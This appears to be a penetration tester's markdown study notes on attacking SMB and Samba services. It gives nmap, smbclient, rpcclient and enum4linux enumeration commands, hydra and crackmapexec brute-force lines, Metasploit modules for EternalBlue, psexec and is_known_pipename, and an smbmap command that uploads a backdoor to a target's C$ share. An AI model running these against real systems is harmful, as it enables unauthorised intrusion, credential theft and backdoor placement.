 ![](</Images/Pasted image 20231202152423.png>)
![](</Images/Pasted image 20231202152550.png>)
## SMB 
common port 139/445 used for sharing files and peripherals like printers

**`IPC$`** ([`null session connection`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/inter-process-communication-share-null-session)) - with this session, Windows lets guest _anonymous users enumerate the names of domain accounts and network shares_.

### nmap scripts for SMB
 `nmap -p445 --script smb-protocols $IP`
`smb-protocols` returns version/protocols
`smb-security-mode` returns some security info about smb
`smb-enum-sessions` enumerates sessions and shows users
`smb-enum-shares` lists differernt shares and current access type. default uses guest account
`smb-enum-users` lists additional users and their account info like password requirements
`smb-enum-domains` gives overall detailed info on shares
`smb-enum-groups` group info
`smb-ls` use like ls
`--script smb-brute --script-args userdb=users.txt,passdb=passwords.txt`

also can add args to same scripts using --script-args. this changes the outcome above when using account with more access. ex.
`--script-args smbusername=<user> smbpassword=<password>`

can also use smbmap for downloading and listing files. Examples:

download: `smbmap -u administrator -p smbserver_771 -H 10.3.25.154 --download 'C$\flag.txt'`

list director contents: `smbmap -u administrator -p smbserver_771 -H 10.3.25.154 -r c$`

brute force login using msfconsole scanner/smb/smb_login
Good user lists in metasploit-framework/data/wordlists/common...
# Samba for SMB (linux)
--script smb-os-discovery
	shows detail info on smb service
	
## msfconsole

`use auxiliary/scanner/smb/smb_version`
> show options
> set RHOSTS
> then run or exploiot

### Samba v3.5.0 most vulnerable

Exploit to get remote access
`exploit/linux/samba/is_known_pipename`
## nmblookup another tool for samba

>**`nmblookup`** - _NetBIOS over TCP/IP client used to lookup NetBIOS names_
```bash
nmclookup -A $IP
```

## smbmap
> Samba share enumerator. Lists out shares and permissions
> Usage `smbmap -H <ip> -u <user> -p <pass>`

Upload file: 
```bash
smbmap -u administrator -p 'smbserver_771' -H $IP --upload '/root/sample_backdoor' 'C$\sample_backdoor'`
```
Download file:
```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 --download 'C$\flag.txt'
```


## smbclient
> Used for enumerating shares or logging in
> usage to list shares `
```bash
smbclient -L //$IP/ -U <username> -N
> ```
>  # -L = list available services
>  # -N = no password prompt

> or `smbclient -L 10.10.233.193 -W WORKGROUP -N`
> usage to login `smbclient //<ip>/<share name> -U <username>`
> specific share use folder/share name after IP
> IPC is a null session. look for this
```bash
smbclient //<ip>/<share name> -U IPC
```
## rpcclient 

>to connect to IPC/Null
```bash
rpcclient -U "" -N 192.126.66.3
```


>once logged on as null (or anyone)...
	`enumdonusers` lists all users and RID
	`lookupnames <name>` will provide more information about
>specific accounts
>`srvinfo` will provide server info

## enum4linux
Tool for enumerating data from Windows and Samba hosts
```bash
enum4linux -a $IP
```
> -a option is to list all which returns a lot of info

```bash
enum4linux -U -o $IP
```
>Attempt to get the userlist (`-U`) and OS information (`-o`) from the target (`192.168.1.200`):

# **SMB for Windows**
## SMB
to mount SMB after discovery
`net use z: \\<ip address>\c$ <password> /user:<username>`
that maps IP C drive to local Z drive

to close SMB `net use * /delete*`

### nmap Scripts for SMB
ex `nmap -p445 --script smb-protocols <ip address>`
`smb-protocols` returns version/protocols
`smb-security-mode` returns some security info about smb
`smb-enum-sessions` enumerates sessions and shows users
`smb-enum-shares` lists different shares and current access type. default uses guest account
`smb-enum-users` lists additional users and their account info like password requirements
`smb-enum-domains` gives overall detailed info on shares
`smb-enum-groups` group info
`smb-ls` use like ls

also can add args to same scripts using --script-args. this changes the outcome above when using account with more access. ex.
`--script-args smbusername=<user> smbpassword=<password>`

## PsExec
- telnet replacement. Similar to RDP except commands are sent via cmd
- get user/pass via hyrda or metasploit
- nothing uploaded to system
- metaploit uses psexec to open meterpreter but uploads malicous file where python script doesn't. easier to avoid antivirus

run via `psexec.py username@ip address and executable` eg. cmd.exe

can also be ran without command to log in.

### metasploit option
```bash
use exploit/windows/smb/psexec
set RHOSTS $IP
set SMBUser $USER
set SMBPass $PASS
run
```

## crackmapexec
Can brute force to get credentials or execute 

Examples:
>brute force
```bash
crackmapexec smb $IP -u <username or list> -p <wordlist>
```
## Eternal Blue
affects systems Vista, 7, server 2008, 8.1, server 2012, 10, server 2016
SMBv1 might be vulnerable to eternal blue. Can check with nmap via `--script=smb-vuln-ms17-010'

once confirmed can be done via metasploit or manual python code called AutoBlue-MS17-010
`/auxiliary/scanner/smb/smb_ms17_010`

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $IP
exploit
```

### AutoBlue
Manual eternal blue exploit. Can be found [here](https://github.com/3ndG4me/AutoBlue-MS17-010.git)

## Enumeration with metasploit

`auxiliary/scanner/smb/smb_enumusers `
`auxiliary/scanner/smb/smb_enumshares`  

Brute force login
`auxiliary/scanner/smb/smb_login`

## Hydra
Can also be used for brute forcing login
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP smb
```
